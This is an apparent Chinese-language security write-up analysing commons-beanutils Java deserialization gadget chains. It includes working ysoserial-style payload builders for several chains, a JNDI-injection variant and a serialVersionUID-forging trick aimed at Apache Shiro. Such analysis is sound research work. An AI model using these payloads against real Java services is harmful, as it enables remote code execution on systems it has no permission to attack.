






# CommonsBeanutils

在之前分析 cc4 的时候，用到了 `TransformingComparator`、`ChainedTransformer` 等类来触发 `TemplatesImpl`。commons-beanutils 是 Apache 提供的一个用于操作 JAVA bean 的工具包，里面提供了各种各样的工具类，让我们可以很方便的对 bean 对象的属性进行各种操作，由此引出了 CB 系列的反序列化链。

## 0x01 BeanComparator

`BeanComparator` 类是 commons-beanutils 中的一个类，它的作用是比较两个类是否相同。初始化时可以指定 property 和 comparator，没有指定的话则使用 `org.apache.commons.collections.comparators.ComparableComparator`。



### PropertyUtils

`BeanComparator.compare()` 方法接收两个对象，如果 property 为空，则直接比较两个对象，property 不为空则执行 `org.apache.commons.beanutils.PropertyUtils#getProperty()` 方法。

PropertyUtils 类使用 Java 反射API 来调用 Java 对象上的通用属性 getter 和 setter 操作的实用方法。 其中的 `getProperty()` 方法接收 bean 对象和属性名，进而调用 get() 方法获取指定 Filed 值。

这个性质贯彻所有 CommonsBeanutils 的利用链构造，正如 Transformer 对于 CC链 的意义



之后进入 `internalCompare()` 方法调用初始化 comparator 的 `compare()` 。



## 0x02 CommonsBeanutils1

前面提到可以通过 `org.apache.commons.beanutils.PropertyUtils#getProperty()` 执行任意的 get 方法，那么就可以使用和 fastjson 类似的思路，直接调用 TemplatesImpl 的 _outputProperties 成员变量来触发。

我们在构造的时候向 PriorityQueue 集合中添加了两个无害元素，add() 方法会调用到 `java.util.Comparator#compare()` 方法。由于 CB1 中我们使用的是这个构造方法，property 不为空没有进入 internalCompare() ，但需要注意的是这个方法会执行 `org.apache.commons.beanutils.BeanComparator` 构造方法时传入的 comparator 的 compore() 方法，后续要注意这种情况。

```java
public BeanComparator( String property ) {
    this( property, ComparableComparator.getInstance() );
}
```



最终 ysoserial gadget 如下，为了兼容性使用了 BigInteger 的 `lowestSetBit` 属性，当然直接去掉后传 null 也行。

```java
    public Object getObject(final String command) throws Exception {
      final Object templates = Gadgets.createTemplatesImpl(command);
      // mock method name until armed
      final BeanComparator comparator = new BeanComparator("lowestSetBit");

      // create queue with numbers and basic comparator
      final PriorityQueue<Object> queue = new PriorityQueue<Object>(2, comparator);
      // stub data for replacement later
      queue.add(new BigInteger("1"));
      queue.add(new BigInteger("1"));

      // switch method called by comparator
      Reflections.setFieldValue(comparator, "property", "outputProperties");

      // switch contents of queue
      Reflections.setFieldValue(queue, "queue", new Object[]{templates, templates});

      return queue;
   }
```

## 0x03 CommonsBeanutils3

除此之外，还可以利用`PropertyUtils#getProperty()` 的特性，用  com.sun.rowset.JdbcRowSetImpl#getDatabaseMetaData() 实现 JNDI 注入

```java
public Object getObject(final String command) throws Exception {
    JdbcRowSetImpl jdbcRowSet = new JdbcRowSetImpl();
    jdbcRowSet.setDataSourceName(command);
    jdbcRowSet.setMatchColumn("foo");
    // mock method name until armed
    final BeanComparator comparator = new BeanComparator("lowestSetBit");

    // create queue with numbers and basic comparator
    final PriorityQueue<Object> queue = new PriorityQueue<Object>(2, comparator);
    // stub data for replacement later
    queue.add(new BigInteger("1"));
    queue.add(new BigInteger("1"));

    // switch method called by comparator
    Reflections.setFieldValue(comparator, "property", "databaseMetaData");

    // switch contents of queue
    Reflections.setFieldValue(queue, "queue", new Object[]{jdbcRowSet, jdbcRowSet});

    return queue;
}
```

## 0x04 CommonsBeanutils2

Ref: https://www.leavesongs.com/PENETRATION/commons-beanutils-without-commons-collections.html

ysoserial 中提到调用链需要 commons-collections 依赖，但是我们在实际调用链的构造时，并没有用到相关类，这是为什么？前面提到，在实例化 BeanComparator 时，如果没有指定 comparator，则默认会实例化一个 ComparableComparator ，而这个类是 commons-collections 包中的一个类。那么如果使用一个非 commons-collections 包的 comparator ，则可以实现纯 CB 利用，在之前的分析中也提到构造 BeanComparator 时是可以自定义 comparator 的。

comparator 需要满足这两个条件，且尽量通用：

1. 实现 `java.util.Comparator` 接口
2. 实现 `java.io.Serializable` 接口

在jdk中寻找符合条件的类，比如`java.lang.String.CaseInsensitiveComparator`、`java.util.Collections.ReverseComparator`，以 `java.lang.String.CaseInsensitiveComparator` 为例构建出 CB2 gadget，可以通过 `String.CASE_INSENSITIVE_ORDER` 方便的拿到该对象



```java
public Object getObject(final String command) throws Exception {
    final Object templates = Gadgets.createTemplatesImpl(command);
    final BeanComparator comparator = new BeanComparator(null, String.CASE_INSENSITIVE_ORDER);

    final PriorityQueue<Object> queue = new PriorityQueue<Object>(2, comparator);
    queue.add("any");
    queue.add("any");

    Reflections.setFieldValue(comparator, "property", "outputProperties");
    Reflections.setFieldValue(queue, "queue", new Object[]{templates, templates});
    return queue;
}
```

## 0x05 CommonsBeanutilsAttrCompare

这条 gadget 使用了一个新的 Compare `com.sun.org.apache.xml.internal.security.c14n.helper.AttrCompare` ，逻辑都差不多，只要在序列化时确保 `java.util.PriorityQueue#add()` 触发到 `AttrCompare#compare()` 时不报错就好。

关键判断就是这两处，Attr 的接口实现需要满足两个条件：

1. namespaceURI 为 String
1. localName 不为空



```java
public Queue<Object> getObject(String command) throws Exception {
  final Object templates = Gadgets.createTemplatesImpl(command);
  AttrNSImpl attrNS1 = new AttrNSImpl(new CoreDocumentImpl(),"1","1","1");

  BeanComparator beanComparator = new BeanComparator(null, new AttrCompare());
  PriorityQueue<Object> queue = new PriorityQueue<Object>(2, beanComparator);
  queue.add(attrNS1);
  queue.add(attrNS1);

  Reflections.setFieldValue(queue, "queue", new Object[] { templates, templates });
  Reflections.setFieldValue(beanComparator, "property", "outputProperties");

  return queue;
}
```

## 0X07 CommonsBeanutilsReverseComparator

之前提到的 `java.util.Collections$ReverseComparator` 链

```java
public Queue<Object> getObject(String command) throws Exception {
    final Object templates = Gadgets.createTemplatesImpl(command);

    // java.util.Collections.ReverseComparator
    Comparator obj = (Comparator) Reflections.newInstance("java.util.Collections$ReverseComparator");

    BeanComparator beanComparator = new BeanComparator(null, obj);
    PriorityQueue<Object> queue = new PriorityQueue<Object>(2, beanComparator);
    queue.add("1");
    queue.add("1");

    Reflections.setFieldValue(queue, "queue", new Object[]{templates, templates});
    Reflections.setFieldValue(beanComparator, "property", "outputProperties");

    return queue;
}
```

commons-collections:commons-collections:3.2.1 也有类似方法类

```java
public Queue<Object> getObject(String command) throws Exception {
    final Object templates = Gadgets.createTemplatesImpl(command);

    BeanComparator beanComparator = new BeanComparator(null, new ReverseComparator());
    PriorityQueue<Object> queue = new PriorityQueue<Object>(2, beanComparator);
    queue.add("1");
    queue.add("1");

    Reflections.setFieldValue(queue, "queue", new Object[] { templates, templates });
    Reflections.setFieldValue(beanComparator, "property", "outputProperties");

    return queue;
}
```

## 0x08 CommonsBeanutilsObjectToStringComparator

同上

```java
public Queue<Object> getObject(String command) throws Exception {
    final Object templates = Gadgets.createTemplatesImpl(command);
    
    BeanComparator beanComparator = new BeanComparator(null, new ObjectToStringComparator());
    PriorityQueue<Object> queue = new PriorityQueue<Object>(2, beanComparator);
    queue.add("1");
    queue.add("1");

    Reflections.setFieldValue(queue, "queue", new Object[] { templates, templates });
    Reflections.setFieldValue(beanComparator, "property", "outputProperties");

    return queue;
}
```

## 0x09 serialVersionUID  兼容性

Ref：https://www.leavesongs.com/PENETRATION/commons-beanutils-without-commons-collections.html

ysoserial 中用的 commons-beanutils 组件版本是1.9.2，而 Shiro 自带的版本为 1.8.3，两个类发生了改动。序列化时会计算一个类的 serialVersionUID 写入数据流，在反序列化时如果环境中对应类计算 serialVersionUID 不同，则会报错。为了解决这个问题，我们可以将本地库换成相应版本，也可以手动修改serialVersionUID。

利用 javassist 建一个手动修改 serialVersionUID 的 BeanComparator。

```java
ClassPool pool = ClassPool.getDefault();
pool.insertClassPath(new ClassClassPath(Class.forName("org.apache.commons.beanutils.BeanComparator")));
final CtClass ctBeanComparator = pool.get("org.apache.commons.beanutils.BeanComparator");
try {
    CtField ctSUID = ctBeanComparator.getDeclaredField("serialVersionUID");
    ctBeanComparator.removeField(ctSUID);
} catch (javassist.NotFoundException e) {
}
ctBeanComparator.addField(CtField.make("private static final long serialVersionUID = -3490850999041592962L;", ctBeanComparator));
final Comparator beanComparator = (Comparator) ctBeanComparator.toClass(new JavassistClassLoader()).newInstance();
ctBeanComparator.defrost();
```


**参考**

> CommonsBeanutils与无commons-collections的Shiro反序列化利用  https://www.leavesongs.com/PENETRATION/commons-beanutils-without-commons-collections.html
>
> https://github.com/SummerSec/ShiroAttack2


